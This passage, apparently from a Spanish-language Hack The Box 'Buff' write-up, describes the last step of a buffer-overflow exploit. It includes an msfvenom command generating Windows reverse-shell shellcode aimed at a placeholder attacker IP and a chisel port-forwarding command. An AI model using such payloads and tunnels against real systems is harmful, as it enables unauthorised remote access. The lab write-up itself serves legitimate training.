 Hemos logrado que el script funcione y nos proporcione una _reverse shell_. Sin embargo, tenemos que conseguir ejecutarlo exitosamente en la máquina víctima real, ya que hasta ahora hemos estado realizando las pruebas en una máquina _Windows_ local. Lo único que debemos ajustar sobre este script es la generación de la _reverse shell_. En esta ocasión, debemos configurar la dirección _IP_ con la de la _VPN_ asignada al conectarnos a _HTB_.

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai LHOST=NUESTRA_IP_HTB LPORT=NUESTRO_PUERTO -b "\x00" EXITFUND=thread -f c
```

Por último, nos traeremos el puerto *8888* de la máquina víctima para que sea nuestro puerto *8888*, con el mismo comando ejecutado anteriormente.

```powershell
chisel.exe client NUESTRA_IP_HTB:1234 R:127.0.0.1:8888
```

![chisel cliente servidor maquina buff puerto 8888](/assets/img/chisel-cliente-servidor-maquina-buff-puerto-8888.png)

Ahora, ejecutaremos de nuevo el script con la pequeña modificación anterior y observaremos como obtenemos acceso a la máquina víctima.

![buffer overflow acontecido conexion remota de buff a nuestra maquina de atacantes](/assets/img/buffer-overflow-acontecido-conexion-remota-de-buff-a-nuestra-maquina-de-atacantes.png)
